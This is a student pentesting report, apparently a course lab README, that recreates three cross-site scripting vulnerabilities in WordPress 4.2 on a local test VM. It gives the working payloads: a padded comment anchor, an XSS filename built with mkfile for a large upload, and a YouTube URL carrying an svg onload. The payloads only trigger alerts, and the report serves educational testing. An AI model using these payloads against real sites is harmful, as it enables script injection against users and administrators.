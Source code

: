 # Project 7 - WordPress Pentesting

Time spent: **6** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting (XSS)
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1 
  - [x] GIF Walkthrough:
    - ![](./gifwalkthru/wp_hack1.gif)
  - [x] Steps to recreate:
    * Attempted the POC by going to wpdistillery.vm (WP 4.2 instance) and add the following comment:
      ```HTML
     <a title='x onmouseover=alert(unescape(/XSS!/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
      ``` 
    * When admin reloaded the page, the alert occured. 
  - [ ] Affected source code:
    - Unable to find affected source code.
2. Large File Upload Error XSS
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.15 
  - [x] GIF Walkthrough: 
    - ![](./gifwalkthru/wp_hack2.gif)
  - [x] Steps to recreate: 
    * Used the following CLI to create a 20MB file:
      ```bash
      “mkfile -n 20m "Dinosaurs secret life<img src=x onerror=alert(1)>.png" to create a 30MB file.
      ```
    * Went to /wp-admin/media-new.php to upload the file.
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/4.2/src/wp-includes/js/plupload/handlers.js)
3. Authenticated Stored Cross-Site Scripting (XSS) in Youtube URL embeds
  - [x] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.13
  - [x] GIF Walkthrough: 
    - ![](./gifwalkthru/wp_hack3.gif) 
  - [x] Steps to recreate: 
    * Went to WPdistillery front page.
    * Pasted the following into the comments field:
    ```
    https://youtube[.]com/watch?v=abc<svg onload=alert(“XSS!”)>
    ```
  - [x] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/trunk/src/wp-includes/embed.php)

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright 2018 Kamber Borders

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
